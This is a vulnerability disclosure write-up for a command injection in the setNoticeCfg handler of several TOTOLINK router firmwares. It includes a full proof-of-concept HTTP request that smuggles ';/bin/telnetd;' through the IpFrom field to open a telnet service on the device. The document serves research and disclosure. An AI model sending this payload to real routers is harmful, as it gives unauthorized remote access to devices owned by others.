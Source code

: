 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A3100R、A830R、A720R...

Version:A3100R_Firmware(V4.1.2cu.5050_B20200504)、A830R_Firmware(V5.9c.4729_B20191112)、A720R_Firmware(V4.1.5cu.470_B20200911)...

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setNoticeCfg` function,`IpFrom` is directly passed by the attacker, so we can control the `IpFrom` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:50%;" /></div>

**Supplement**

Initially, I discovered this vulnerability on A720R, which is located in `cstecgi.cgi`. Interestingly, during the process of observing other devices, I found that this function was encapsulated in `system.so`, such as A3100R; finally, I completed the verification on the A3100R device.



## PoC

We set `IpFrom` as **;bin/telnetd;** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Origin: http://192.168.0.1
Connection: close

{"topicurl":"setting/setNoticeCfg","NoticeEnabled":"1","NoticeUrl":"www.baidu.com","BtnName":"abc123","WhiteListUrl1":"www.baidu.com","WhiteListUrl2":"","WhiteListUrl3":"","IpFrom":";/bin/telnetd;","IpTo":"4","NoticeTimeoutVal":"120"}
```

<div  align="center"><img src="./images/2.png" style="zoom:50%;" /></div>



## Result
The target router has enabled the telnet service

<div  align="center"><img src="./images/3.png" style="zoom:50%;" /></div>

